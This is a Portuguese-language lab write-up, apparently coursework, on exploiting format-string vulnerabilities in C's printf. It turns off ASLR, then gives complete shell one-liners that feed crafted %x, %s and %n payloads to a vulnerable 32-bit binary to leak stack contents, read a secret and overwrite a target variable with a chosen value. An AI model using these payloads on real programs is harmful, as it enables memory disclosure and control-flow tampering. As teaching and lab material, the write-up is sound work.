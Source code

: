 # Semana 6

## Introdução

A função `printf()` em `C` possui uma vulnerabilidade muito grande chamada de format string.
Caso algo do tipo `printf(STR)`, onde STR é uma string que pode ser afetada pelo user, está presente uma vulnerabilidade.
Isto acontece porque dentro de uma string podem estar os formatadores que começam com '%' e como não são passados argumentos ao `printf()`, a função vai fazendo pop da stack, revelando os seus conteúdos.
Para evitar este problema, basta fazer `printf("%s", STR)`.

Conhecendo o layout da stack e com uma vulnerabilidade de format string, conseguimos ler os conteúdos presentes na stack e, em ultima instância, alterar o seu conteúdo com %n, que inves de printar um valor, guarda o numero de linhas já imprimidas num valor da stack, podendo o endereço onde tudo isto acontece manipulado.

Sistemas modernos têm várias medidas para dificultar mas vamos remove-las:

`sudo sysctl -w kernel.randomize_va_space=0`

compilar o código com as flags gcc: `-z execstack`

## Task 1

O programa recebe a nossa string e dá print dela de seguida. Como há uma vulnerabilidade de string format, se passarmos como argumento %s e o conteúdo no top da stack não for uma string, conseguimos imediatamente crashar o programa:

![""](task1.png)

## Task 2

### 2-A

Vamos usar como input "ABBA.%x.%x.%x..." até aparecer em %x o conteúdo do nosso ABBA, ou seja, 41 42 42 41.

Após algumas tentativas com número variável de %x chegamos a:

![""](task2a.png)

Encontramos na stack a própria string inserida!! Usamos a seguinte string que contém 64 formatadores %x :

```sh
ABBA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

### 2-B

Se quisermos ter mais controlo sobre o que printamos, basta pôr o endereço desejado no inicio da string e o formatador encarregar-se-á de o printar!

Neste caso é fácil saber o endereço porque quando iniciamos o servidor ele indica-nos o endereço!

Notar que endereços são little-endian então temos de inverter o endereço, pelo que:
0x080b4008 &rarr; \x08\x40\x0b\x08

Então vamos inserir a seguinte string:

```sh
clear && printf "ABBA\x08\x40\x0b\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%s\n" | ./format-32
```

Com isto sabemos que a seguir ao print do ABBA (que já sabemos ser 41 42 42 41) que está no  64º %x como confirmado anteriormente,  tem de vir o print do conteúdo do endereço desejado! Como sabemos que secret é char*, usamos um %s para ler o conteúdo e ler o segredo.

![""](task2b.png)

## Task 3

### 3-A

Até agora limitamo-nos a ler conteúdos. Agora vamos alterar o conteúdo da variável target com endereço 0x080e5068. Para tal recorremos a %n, que escreve o número de caracteres escritas até agora

Posição do target:
0x080e5068 &rarr;  \x68\x50\x0e\x08

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%n\n" | ./format-32
```

Usando a mesma lógica de atrás, vamos apenas alterar a string para usar %n para em vez de ler, escrever na posição do target o valor de chars printados até agora.

![""](task3a.png)

Como desejado, alteramos o target, passando este a conter 0x0000013a.

### 3-B

Para controlar o valor escrito, temos de controlar o que %n escreve. Para tal, temos de controlar quantos chars são escritos. Como buffers podem ter tamanho limitado, não podemos simplesmente pôr de input strings enormes. Há uma abordagem mais simples! Formatadores podem ter left-padding de blank spaces da seguinte forma: %10s. Isto gera 10 espaços em branco e depois printa uma string.

Vamos testar adicionar 50 caracteres (%%50x.%%n\n) para ver como corre:

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%50x.%%n\n" | ./format-32
```

E obtemos:

![""](task3B1.png)

Conseguimos alterar %n e agora o target contem 0x00000164.

Assim, basta calcular o offset necessário para conseguir escrever o valor desejado de 0x5000.

0x5000 - 0x0000013a = 20166 (base 10)

Então sabemos que 20166 estará perto do valor certo!

![""](task3b2_1.png)

Ainda falta um pouco então vamos aumentar:

```sh
clear && printf "ABBA\x68\x50\x0e\x08%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%x.%%20174x.%%n\n" | ./format-32
```

![""](task3b2_2.png)

Conseguimos alterar uma variável target para o valor pretendido!
Caso esta variável fosse crucial para o flow do código, podiamos manipular esse flow e manipular o comportamento do código para nosso benefício!
